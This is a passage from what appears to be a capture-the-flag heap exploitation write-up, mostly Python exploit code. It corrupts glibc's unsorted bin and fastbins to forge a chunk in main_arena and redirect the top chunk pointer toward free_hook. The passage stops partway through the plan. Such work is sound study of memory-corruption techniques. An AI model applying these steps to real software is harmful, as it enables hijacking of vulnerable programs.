 ```python
Basically, in the main arena of libc, there is a pointer known as the top pointer that
exists right after the fastbins. This pointer essentially points to the memory address
that gets used whenever the top chunk is used to service allocations. If we can change
this top pointer and have it point to some other memory region, any allocations that
need to use the top chunk will now give us allocations at that memory address.

The only restriction is that this new memory address must look similar to what the top chunk
header looks like.

I first tried to get a chunk on malloc_hook, however none of the one_gadgets worked, so I
had to come up with something else.

NotDeGhost again told me that it is possible to get a chunk on free_hook, and I was
dumbstruck. Took me a while but I realized how to do it.

The solution will amaze you for sure.
'''

# We don't want subsequent allocations to come out of the unsorted bin
# Since we will use our fake chunk a lot, it is guaranteed to be corrupted.
# Any subsequent mallocs will then just crash if the unsorted bin is used
# Therefore, just empty out the unsorted bin here by first changing its size to 0x61
# Then we allocate a 0x58 sized chunk
reintroduce(p64(0) + p64(0x61) + p64(leak) + p64(leak) + p64(0)*9 + p64(0x21))
add(0x58, 'A'*0x58) # 7

# We fake a 0x20 sized chunk and free it. This will be our fake chunk in main_arena.
# The main arena's fastbin[2], which is the 0x20 fastbin, will have a pointer to this chunk.
# Remember this chunk is in the .bss segment, so its address is 0x602040.
reintroduce(p64(0) + p64(0x31) + p64(0x21)*8)
free(6)

# Now we free a 0x61 sized chunk to prepare for the fastbin attack
reintroduce(p64(0) + p64(0x61) + p64(0x21)*18)
free(6)

# This is the address where the 0x602040 address from above looks 16 byte aligned
fake_chunk_top = main_arena + 0x10 - 0x6

# We set our fake chunk's fd pointer to point to our fake chunk in main arena
reintroduce(p64(0) + p64(0x61) + p64(fake_chunk_top) + p64(0))

# Chunk 9 will be in main arena, we overwrite it with free_hook-0x1100+0x70-0x5
# If you look at that address-0x10, it looks like the top chunk header
# So we set the top chunk pointer to that address (free_hook-0x1100+0x70-0x5)
add(0x50, 'B'*0x50) # 8
add(0x50, '\x00'*0x3e + p64(free_hook - 0x1100 + 0x70 - 0x5)) # 9

# Now the next chunk was a test to see if it worked
# This chunk should be placed at free_hook-0x1100+0x70-0x5
add(0x58, 'A'*8) # 10

# Next, my plan was to do enough mallocs so we can reach free_hook from free_hook-0x1100 ...
# The program however has a limit of 19 chunks
